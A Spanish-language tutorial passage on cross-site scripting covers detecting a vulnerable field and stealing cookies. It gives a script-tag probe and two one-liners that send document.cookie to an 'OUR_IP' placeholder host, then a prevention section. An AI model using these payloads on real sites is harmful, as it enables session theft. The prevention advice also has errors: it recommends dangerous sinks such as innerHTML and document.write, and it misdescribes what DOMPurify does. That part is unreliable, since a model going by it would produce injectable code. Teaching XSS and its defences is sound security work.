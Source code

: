 Primero de todo, para comprobar si es vulnerable o no podemos usar el siguiente payload:
```html
<script src="http://OUR_IP/username"></script>
```
Con el que recibiremos una petición a la IP que controlamos de forma inmediata. Si recibimos la petición, significará que el campo username es vulnerable.
Algunos parámetros comunes que es muy poco probable que sean vulnerables son el password, ya que normalmente están almacenados en forma de hash y los emails ya que el formato de email tiene que se correcto.
Para robar las cookies:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

#### Prevention

##### Input validation

Establecer la entrada con una whitelist con los valores único que se pueden utilizar, por ejemplo esta función de javascript que permite solo direcciones de email válidas:
```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```

##### Input sanitization

Comprobar que no nos introducen ningún script dónde no deberían, cómo este código que sustituye cualquier carácter especial con una / previniendo vulnerabilidades DOM XSS
```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```

##### Direct input

Tenemos que tener en cuenta no utilizar nunca algunos tags directos:
1. JavaScript code `<script></script>`
2. CSS Style Code `<style></style>`
3. Tag/Attribute Fields `<div name='INPUT'></div>`
4. HTML Comments `<!-- -->`

Preferiblemente habría que usar funciones JavaScript:
- `DOM.innerHTML`
- `DOM.outerHTML`
- `document.write()`
- `document.writeln()`
- `document.domain`
Y funciones JQuery:
- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`
